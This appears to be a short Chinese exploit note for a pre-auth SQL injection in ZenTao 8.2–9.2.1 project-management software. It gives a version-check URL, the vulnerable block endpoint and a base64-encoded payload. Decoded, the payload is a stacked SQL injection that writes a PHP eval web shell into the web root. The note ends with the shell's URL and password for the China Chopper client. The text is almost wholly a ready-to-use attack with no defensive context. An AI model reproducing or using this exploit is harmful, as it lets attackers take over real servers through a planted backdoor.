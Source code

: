 ## 禅道8.2 - 9.2.1前台Getshell&注入EXP
#### 先获取版本号：
```PHP
http://127.0.0.1:81/zentao/index.php?mode=getconfig
```
#### 看下是否存在这个漏洞 8.4版本是存在这个漏洞的
#### EXP提交地址 写SHELL时必须加上Refer: http://127.0.0.1:81/zentao
```PHP
http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64加密的EXP
```
### EXP
```PHP
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwMjczYzNmNzA2ODcwMjA0MDY1NzY2MTZjMjgyNDVmNTA0ZjUzNTQ1YjMxNWQyOTNmM2UyNzIwNjk2ZTc0NmYyMDZmNzU3NDY2Njk2YzY1MjAyNzQzM2EyZjMxMzEzMTMxMzEzMTMxMzEzMTYzNjE2ZTY0NjE2ZjJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjc4Njk2ZDYzNzgyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
### 菜刀链接：http://地址/zento/ximcx.php   密码为：1
